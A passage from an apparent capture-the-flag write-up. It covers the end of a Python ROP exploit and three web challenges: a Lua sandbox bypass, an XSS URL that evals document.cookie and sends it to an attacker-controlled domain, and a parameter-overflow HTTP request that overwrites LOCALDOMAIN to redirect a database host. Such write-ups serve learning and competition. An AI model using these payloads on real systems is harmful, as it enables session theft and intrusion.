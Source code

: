 ```python
payload = obj + filename + sc
update('7', 0x10, payload)
logout()
login('xxx', 'xxx')
payload = rop.ljust(0x100, '\x00')
io.send(payload)

io.interactive()
```

## Web

### Luatic

1. Bypass check with ``_POST[MY_SET_COMMAND]``
2. overwrite ``math.random`` by ``function math.random(a) return 1 end``
3. ``next(math,next(math))`` to get ``math.random`` without ``.``
4. get flag

### Bounty Pl33z

1. In ECMAScript \u2028 and \u2029 could be used as same as CRLF
2. In ECMAScript the extended comment grammar is supported by chrome: 
```
<!---
-->
```
and after the `-->` could append any character allowed in comment
3. Combined the two tricks we could get the final payload:

```
http://3.114.5.202/fd.php?q=758afc7c。n0p。co?cookie="%2Beval(atob(ZG9jdW1lbnQuY29va2ll))%E2%80%a8–%3E
```

### GoGo PowerSQL

1. OOB Write in HTTP Query Params loading.
2. We could overwrite the dbhost with the alpha-only hostname.
3. The Goahead webserver used to have a bug that could overwrite any environment variable. In this problem, the patch has been reverted. And we could overwrite the LOCALDOMAIN with our evil hostname, to bypass the restrict of the hostname.
4. Final payload:

```
GET /cgi-bin/query?LOCALDOMAIN=758afc7c.s.n0p.co&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&name=test&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&a=1&xxx=aaa&mmm=user&pass=db HTTP/1.1
Host: 13.231.38.172
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Accept: */*
LOCALDOMAIN: 35.227.42.203
Referer: http://13.231.38.172/index.html
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
```